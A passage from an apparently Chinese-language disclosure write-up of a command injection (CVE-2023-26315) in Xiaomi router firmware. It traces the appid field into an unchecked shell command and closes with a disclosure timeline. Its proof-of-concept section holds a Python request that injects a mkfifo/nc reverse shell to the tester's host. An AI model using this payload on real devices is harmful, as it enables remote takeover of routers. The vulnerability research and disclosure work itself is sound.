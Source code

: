 ![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-51049f04e0afd58e815269aeb99c2783d49fc67e.png)

上文说过，当`api`为`629`时，传入的`payload`字段的数据会被转发给`plugincenter`程序处理。所以最后来到了`/usr/sbin/plugincenter`程序中，找到`datacenter::PluginApiMappingExtendCollection::sConstructMappingTable`函数，仍然是通过`map`建立了`api`编号和对应`handler`函数的映射关系。可以看到，当`api`编号为`629`的时候，会执行到`parseGetIdForVendor`函数进行处理。

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-398f8d936cd0579d7ba71d1d4ebdfeca609e6de5.png)

在`parseGetIdForVendor`函数中，会将传入的`Json`数据内的`appid`字段作为参数传递到`PluginApi::getIdForVendor`函数中。

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-188d0291f16cacc982ce5985425f4ff77135841d.png)

在`PluginApi::getIdForVendor`函数中，可以很明显地发现：**即使`appid`字段合法性检查不通过，也会被拼接入命令中并执行**。显然，这里是一个开发上的疏忽，在判断`!IsValidAppId`的条件分支内，在输出报错信息后，应当在最后加上`return ;`返回，不能继续执行下去。

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-6e74a5ebd0f188a36bedba20471a0e028931fc63.png)

因此，这里存在一个命令注入漏洞，该漏洞调用链至此分析完毕。

### Poc及演示结果

这里需要自行更改一下相关`IP`和`Token`值，此处注入了反弹`shell`的命令，端口`8888`。

```python
import requests

server_ip = "192.168.50.1"
client_ip = "192.168.50.105"
token = "814c55713043e7358d3c1f42f2a98438"

nc_shell = ";rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {} 8888 >/tmp/f;".format(client_ip)

res = requests.post("http://{}/cgi-bin/luci/;stok={}/api/xqdatacenter/request".format(server_ip, token), data={'payload':'{"api":629, "appid":"' + nc_shell + '"}'})

print(res.text)
```

![](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-77cfabbfe68f3965d708c04c9bb30a1cf6364726.png)

### 写在最后

此篇文章仅作抛砖引玉，在`datacenter`，`plugincenter`以及`indexservice`内不同`api`的`handler`函数可能就有几百个（当然这里可以结合`fuzz`），以及`thriftunnel`的其他`option`操作也这么往下挖下去，我想应该也会存在漏洞。笔者也只是在小米当时赏金活动那几天大概看了看，后续也没再继续深入看这些地方了，本来想留着后面继续挖的，但是准备了一年保研感觉心态发生了一些奇妙的变化，研究生可能更想去尝试下其他更深入的方面，不想再做单纯的这样挖洞了，所以也就放出来了。感兴趣的读者可继续探索，挖到了也可以分享在评论区。

- - - - - -

**时间线：**

- 2023-03-26 提交漏洞报告至小米安全中心（Xiaomi Security Center）
- 2023-04-03 厂商验证后确认两个漏洞存在，并开始修复漏洞
- 2023-05-24 两个漏洞的赏金均到账（活动期间还翻倍了，挺爽）
- 2023-06-09 厂商告知漏洞已全部修复完成（但似乎补丁未立即发布）
- 2024-05-09 联系厂商分配其中一个漏洞编号 CVE-2023-26315 并披露
- 2024-06-12 CNVD 收录本文漏洞，分配编号 CNVD-2024-23093 并公开
